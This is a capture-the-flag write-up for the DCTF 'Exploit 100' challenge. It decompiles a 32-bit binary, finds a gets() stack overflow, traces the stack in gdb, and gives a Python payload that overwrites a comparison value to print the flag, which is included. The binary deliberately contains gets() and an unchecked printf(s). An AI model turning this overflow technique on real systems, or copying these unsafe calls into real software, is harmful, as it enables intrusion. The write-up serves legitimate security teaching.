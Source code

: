 # Password encrypting tool (Exploit 100)

## Problem

Our second newest programmer created a tool so that we can encrypt our usual passwords and use more secure ones wherever we register new accounts. He said that he left some sort of an easter egg that could leverage you, but he doesn't really expect anyone to get it. You are the newest programmer, can you find it and prove him you are the one?

Hack the target when you've figured out with this file.

## Analysis & Solution
Credit: [@gellin](https://github.com/gellin)

```
root@kali:~/Desktop# file e100
e100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```
Next we dropped it into IDA32 and found the two interesting functions.
This appears to be the important part of the code, it seems to contain an easter egg. It appears that if we can somehow overflow the value 0xDADADADA that was passed into function `sub_80484FD` it will give us the flag.

```
int sub_80485A4()
{
  sub_80484FD(0xDADADADA);
  return 0;
}

//the address of the comparison to break point
.text:08048526 cmp [ebp+arg_0], 0BADB0169h

int __cdecl sub_80484FD(int a1)
{
  size_t i; // [sp+18h] [bp-30h]@3
  char s[32]; // [sp+1Ch] [bp-2Ch]@1
  int v4; // [sp+3Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  printf("Enter password: ");
  gets(s);
  if ( a1 == 0xBADB0169 ) //0x8048526 cmp [ebp+arg_0], 0BADB0169h
  {
    system("cat flag"); //right here is the easter egg, al is set as 0xDADADADA it needs to be 0xBADB0169 to trigger the easter egg
  }
  else
  {
    for ( i = 0; i < strlen(s); ++i )
      s[i] ^= a1;
    printf("Your new secure password is: ");
    printf(s);
  }
  return *MK_FP(__GS__, 20) ^ v4;
}
```

Lets breakpoint the comparison at `0x8048526` and see if we can find `0xDADADADA` in the stack and smash it!


```
root@kali:~/Desktop# gdb ./e100
(gdb) b* 0x8048526
Breakpoint 1 at 0x8048526
(gdb) r
Starting program: /root/Desktop/e100 
Enter password: AAAAAAAAAAA

Breakpoint 1, 0x08048526 in ?? ()
(gdb) x/64x $esp
0xffffd400: 0xffffd41c  0x00000000  0x000000c2  0xf7ea0586
0xffffd410: 0xffffffff  0xffffd43e  0xf7e18bf8  0x41414141
0xffffd420: 0x41414141  0x00414141  0x00000001  0x08048361
0xffffd430: 0xffffd664  0x0000002f  0x0804a000  0xfc148e00
0xffffd440: 0x00000001  0xf7fb2000  0xffffd468  0x080485b9
0xffffd450: 0xdadadada  0xf7ffd000  0x080485cb  0xf7fb2000 //BINGO at the start of this line
0xffffd460: 0x080485c0  0x00000000  0x00000000  0xf7e25a63
0xffffd470: 0x00000001  0xffffd504  0xffffd50c  0xf7feb7da
0xffffd480: 0x00000001  0xffffd504  0xffffd4a4  0x0804a024
0xffffd490: 0x0804825c  0xf7fb2000  0x00000000  0x00000000
0xffffd4a0: 0x00000000  0x17bd6a4a  0x2ca1ce5a  0x00000000
0xffffd4b0: 0x00000000  0x00000000  0x00000001  0x08048400
0xffffd4c0: 0x00000000  0xf7ff1020  0xf7e25979  0xf7ffd000
0xffffd4d0: 0x00000001  0x08048400  0x00000000  0x08048421
0xffffd4e0: 0x080485a4  0x00000001  0xffffd504  0x080485c0
0xffffd4f0: 0x08048630  0xf7febc90  0xffffd4fc  0x0000001c
(gdb) c
Continuing.
Your new secure password is: �����������[Inferior 1 (process 4438) exited normally]
(gdb) r
Starting program: /root/Desktop/e100 
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048526 in ?? ()
(gdb) x/64x $esp
0xffffd400: 0xffffd41c  0x00000000  0x000000c2  0xf7ea0586
0xffffd410: 0xffffffff  0xffffd43e  0xf7e18bf8  0x41414141
0xffffd420: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd430: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd440: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd450: 0x41414141  0x41414141  0x41414141  0xf7004141 //:OOO we can smash it
0xffffd460: 0x080485c0  0x00000000  0x00000000  0xf7e25a63
0xffffd470: 0x00000001  0xffffd504  0xffffd50c  0xf7feb7da
0xffffd480: 0x00000001  0xffffd504  0xffffd4a4  0x0804a024
0xffffd490: 0x0804825c  0xf7fb2000  0x00000000  0x00000000
0xffffd4a0: 0x00000000  0x50fcfb1c  0x6be05f0c  0x00000000
0xffffd4b0: 0x00000000  0x00000000  0x00000001  0x08048400
0xffffd4c0: 0x00000000  0xf7ff1020  0xf7e25979  0xf7ffd000
0xffffd4d0: 0x00000001  0x08048400  0x00000000  0x08048421
0xffffd4e0: 0x080485a4  0x00000001  0xffffd504  0x080485c0
0xffffd4f0: 0x08048630  0xf7febc90  0xffffd4fc  0x0000001c
(gdb) Quit
```

So we write up

```
import struct 
print "A"*52+struct.pack('I', 0xBADB0169)
````

Once supplied as the password the server responds with `DCTF{3671bacdb5ea5bc26982df7da6de196e}`